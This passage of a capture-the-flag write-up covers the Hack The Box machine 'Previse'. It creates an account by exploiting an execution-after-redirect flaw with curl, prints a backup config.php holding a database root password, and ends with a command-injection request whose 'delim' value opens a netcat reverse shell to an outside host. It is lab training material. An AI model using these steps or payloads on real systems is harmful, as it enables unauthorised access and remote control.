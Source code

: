 The website has an [Execution After Redirect (EAR) vulnerability](https://cwe.mitre.org/data/definitions/698.html). In short: the server returns a 302 status code but then proceeds to render the response anyway. It's easy to miss because your browser will redirect, so you need to use `curl` or BurpSuite to view the response before the redirection happens.

So, I'm able to view the output of `acounts.php` without authenticating using `curl`. From there I can see the POST parameters needed to create an account, just `username`, `password` and `confirm`.

That means I can create an account without authenticating:

```console
curl -X POST -d 'username=haxhax' -d 'password=haxhax' -d 'confirm=haxhax' http://previse.htb/accounts.php
```

After logging in, I see one file, which happens to be a site-backup. I'm able to download it and extract the contents:

```console
kali@kali:~/htb-previse/siteBackup
$ rm -rf *kali@kali:~/htb-previse/siteBackup
$ unzip ../siteBackup.zip
Archive:  ../siteBackup.zip
inflating: accounts.php
inflating: config.php
inflating: download.php
inflating: file_logs.php
inflating: files.php
inflating: footer.php
inflating: header.php
inflating: index.php
inflating: login.php
inflating: logout.php
inflating: logs.php
inflating: nav.php
inflating: status.phpkali@kali:~/htb-previse/siteBackup
$ cat config.php
<?phpfunction connectDB(){
$host = 'localhost';
$user = 'root';
$passwd = 'mySQL_p@ssw0rd!:)';
$db = 'previse';
$mycon = new mysqli($host, $user, $passwd, $db);
return $mycon;
}?>
```

The `logs.php` file has a command injection vulnerability in the `delim` parameter:

```console
POST /logs.php HTTP/1.1
Host: previse.htb
Content-Length: 45
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
Origin: http://previse.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.60 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://previse.htb/file_logs.php
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=k2t8039ucph24qo3q1d6fhdtlq
Connection: close

delim=$( busybox nc 10.10.14.12 443 -e bash )
```